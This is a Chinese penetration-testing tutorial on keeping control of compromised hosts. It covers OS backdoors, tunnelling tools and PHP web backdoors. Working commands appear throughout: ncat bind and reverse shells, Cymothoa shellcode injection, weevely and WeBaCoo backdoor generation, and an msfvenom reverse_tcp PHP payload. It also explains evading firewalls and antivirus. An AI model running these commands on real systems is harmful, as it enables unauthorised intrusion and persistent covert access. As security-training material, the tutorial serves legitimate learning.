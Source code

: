 维持控制权的程序可分为以下几类：
- 操作系统后门
- 隧道攻击
- web后门
---
### 操作系统的后门
- **Cymothoa**
    Cymothoa是一款可用将shellcode注入到现有进程的后门工具。借助这个手段可以把shellcode伪装成常规程序。

```
cymothoa,在使用时必须通过-p选项指定目标进程的PID，通过-s选项指定shellcode的编号
在渗透到目标主机后可把cymothoa的可执行程序复制到目标主机上，继而生成后门程序。

# cymothoa -p 4255 -s 1 -y 4444   # 选定PID 4255为宿主进程，使用第一类shellcode，-y[port number]指定payload的服务端口

用另一条主机，通过下述指令连接至目标主机后门（4255端口）
# nc -nvv 192.168.45.102 4255
```
- **Intersect**
    Intersect是一款适合在漏洞利用以后使用的能够自动完成多种后期任务的程序。它能够自动收集密码文件、复制SSH密钥、收集网络信息并能识别杀毒软件和防火墙程序。
- **Meterpreter后门**
    Metasploit meterpreter程序自带一个名为metsvc的后门程序，它可让您随时获取Meterpreter的shell。不过metsvc程序没有采用任何认证机制，所有发现该后门端口的人都能使用这个后门。

```
meterpreter > run metsvc    # 执行这个命令后，在被测主机上可找到此后门文件，并且当系统重启时会自动加载。
meterpreter > run metsvc -r    # 在被测主机上卸载metsvc服务

msf > use exploit/multi/handler     # 在攻击机上对目标进行利用
msf exploit(multi/handler) > set payload windows/metsvc_bind_tcp
payload => windows/metsvc_bind_tcp
msf exploit(multi/handler) > show options
```

### 隧道工具

在计算机领域里，隧道是指**使用某个网络协议封装另外一种网络协议**的技术手段。在渗透测试中，使用隧道技术主要是为了让目标系统的保护机制无法发挥作用。
多数情况下，目标系统的防火墙会组织内部系统访问外部网络，只放行DNS、HTTP和HTTPS这类的常见网络协议。在这种情况下，如果要在目标系统的内网使用外网的其他网络协议，就需要构建HTTP协议的隧道。这样防火墙就会放行隧道封装的数据。

- **dns2tcp**
    dns2tcp是一种把tcp数据包伪装为dns协议数据包的隧道封装工具。它适用于目标主机只能发送dns请求的网络环境。当它在特定端口受理连接请求时，会封装成dns协议的格式，再发送到指定主机的指定端口的dns2tcp服务端程序。
    dns2tcp采用了CS架构。客户端程序叫做dns2tcpc，服务端叫做dns2tcpd。
- **iodine**
    iodine是一款能够将IPv4的网络流量封装成DNS协议的工具。它特别适用于目标主机只能发送DNS请求的网络环境。
- **ncat**
    ncat是一款集发送、接收、转发、加密数据等多种功能为一身的网络工具。

```
用ncat设置主机为代理服务器：
    root@kali:~# ncat -l -v --proxy-type http 192.168.72.130 8888
    Ncat: Version 7.60 ( https://nmap.org/ncat )
    Ncat: Listening on :::8888
    Ncat: Listening on 0.0.0.0:8888

ncat创建后门：
    ncat -l -p 8899 -e /bin/bash            # 再被测主机上启用监听
    ncat 192.168.32.134 8899                # 攻击机连接被测主机的backdoor

创建reverse shell：
    ncat -l -p 7788                         # 攻击机上开启端口
    ncat 192.168.32.2 7788 -e /bin/bash     # 在被测主机上创建reverse shell，使其自主连接到攻击人员的主机上
```
应当注意，上述例子并没有对网络流量进行加密处理。如果需要加密网络数据，应当使用**cryptcat**程序。在使用cryptcat时，务必要在通信的两端使用-k选项设置加密密码，否则它将使用默认密码进行加密。

- **proxychains**
    proxychains程序可强制TCP客户端程序通过指定的代理服务器（或代理链）发起TCP连接。自3.1版本起，它支持SOCkS4代理、SOCKET5代理和基于CONNECT模式的HTTP代理服务器。

```
proxychains的文档介绍了它的各种用途：
· 适用于通过代理服务器访问外部网络的情况
· 可用于穿透限制外联端口的防火墙（出口过滤）
· 可将2个（或更多）代理服务器组成代理服务器链
· 可让本身不支持代理的程序使用代理服务器，如Telnet、Wget、FTP、VNC等
· 可通过反响代理服务器从网络外部访问内网
```
- **ptunnel**
    ptunnel是一款使用**ICMP** ping（请求和回复)封装TCP连接的隧道工具。即使被测主机无法向Internet发送任何TCP和UDP的数据，只要它可以向取Internet发起ping命令，那么这款工具就可以帮助它穿越防火墙。ptunnel可以脱离TCP和UDP连接访问E-mail、上网或进行其他网络活动。

- **socat**
    socat程序是一款使用两个独立数据通道（字节流）双向传输数据的中继程序。

socat程序的工作流程分为4个阶段：

- 初始化阶段：在第一阶段，socat程序要解析命令行里的选项并初始化日志系统。
- 建立连接阶段：在第二阶段，socat程序会依次打开第一（源）地址和第二（目标）地址。因为必须先读后写，所以如果不能打开第一个地址，程序就会直接退出。
- 数据传输阶段：在第三阶段，socat程序通过select()函数监控两个数据通道的“读写”文件描述符。当数据源地址可读且目标可写时，socat会读取源数据。并在必要时进行转换符的转换，把元数据写到另外一个数据流里的目标文件描述符里，之后周而复始。
- 关闭连接阶段：当某个地址流遇到EOF，程序就进入了第四阶段。socat会在另外一个方向仍然在传输数据，那么程序将关闭所有的数据通道并停止执行。

```
要从主机192.168.2.22向主机192.168.2.23发送文件需要下面几步：

1、 在192.168.2.23（接收端）执行下述指令：
    socat TCP4-LISTEN:12345 OPEN:php-meter.php, create, append      # socat会监听12345端口，如果没有php-meter.php这个文件会创建该文件，否则会将传输内容续写到文件的尾部
2、 在主机192.168.2.22发送端上执行下述指令：
    cat php-meter.php | socat - TCP4:192.168.2.23:12345
```
- **sslh**
    sslh是SSL/SSH协议的端口复用程序。它在指定端口受理连接，然后根据远程客户端发送的第一个数据包识别应用程序的连接类型，并将之转发到相应的服务端程序。

```
sslh程序的端口复用功能可在443端口上同时受理SSH连接和HTTPS连接：

1、在启动sslh程序之前，要先对web服务器端程序进行调整。您需要首先编辑服务器程序的配置文件，使其仅监听本机（localhost）的443端口。然后重启web服务器端程序。
2、接下来配置sslh，打开文件/etc/default/sslh，并将 Run=no 替换为 Run=yes。保存并启动sslh

之后便可以使用另一台主机通过443端口连接到被测主机的SSH服务。
ssh -p 443 root@192.168.2.22
```
- **stunnel4**
    stunnel4可以使用**SSL**技术对客户端和服务器端之间的TCP会话进行**加密传输**。stunnel4可以为本身无法进行TLS或SSL通信的客户端及服务器程序提供安全的加密连接，而不必修改这些程序的源代码。它可封装Samba、POP3、IMAP、SMTP和HTTP协议。

### Web后门

- **WeBaCoo**
    Web Backdoor Cookie是一款隐蔽的脚本类Web后门工具。借助http协议，它可在客户端和Web服务器之间实现执行代码的网页终端。

    WebBaCoo有两种操作模式：
    - Generation（生产线模式）：指定-g选项可进入这种模式。用户可在这种模式下制作PHP代码的payload
    - Terminal（终端模式）：    指定-t选项可进入这种模式。用户可在这种模式下连接到被测主机的后门程序

    WeBaCoo的精妙在于web服务器和客户端之间的通信载体是cookie。这就意味着多数的杀毒软件、网络入侵检测/防御系统、网络防火墙和应用程序防火墙都无法检测到后门的存在。
    在WeBaCoo的HTTP Cookie中，以下三个参数的作用最为重要：
    - cm：以base64编码的shell指令
    - cn：加载着编码后输出内容的cookie名称
    - cp：封装编码后输出内容的分隔符

```
root@kali:~# webacoo -g -o backdoor.php                 # 生成后门php

	WeBaCoo 0.2.3 - Web Backdoor Cookie Script-Kit
	Copyright (C) 2011-2012 Anestis Bechtsoudis
	{ @anestisb | anestis@bechtsoudis.com | http(s)://bechtsoudis.com }

[+] Backdoor file "backdoor.php" created.

把这个backdoor.php上传至被测主机（192.168.2.23）
接下来就可以使用以下指令连接到被测主机的后门程序：
root@kali:~# webacoo -t -u http://www.test.com/backdoor.php
```
- **weevely**
weevely是一款具有高隐蔽性的针对PHP平台的web shell。它实现了SSH风格的终端界面，并有大量自动化的模块。测试人员可用它执行系统指令、远程管理和渗透后期的自动渗透。

它有30多种可完成自动管理渗透后期任务的功能模块。这些模块能够：
    - 执行命令和浏览远程文件系统
    - 检测常见的服务器配置问题
    - 创建TCP shell和reverse shell
    - 在被测主机上安装HTTP代理
    - 利用目标主机进行端口扫描
```
# weevely generate password backdoor.php            # 生成后门，放入目标站点

# weevely http://192.168.2.22/backdoor.php password # 攻击机连接
```

### PHP Meterpreter
Metasploit有一个名为PHP Meterpreter的payload。这个模块可创建具有Meterpreter功能的PHP Web shell。利用目标的漏洞（诸如常见的注入和上传漏洞）后，再把它的shell传到目标主机上即可

Metasploit的msfvenom工具可制作PHP meterpreter，具体如下：
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.23 -f raw > php-meter.php
```
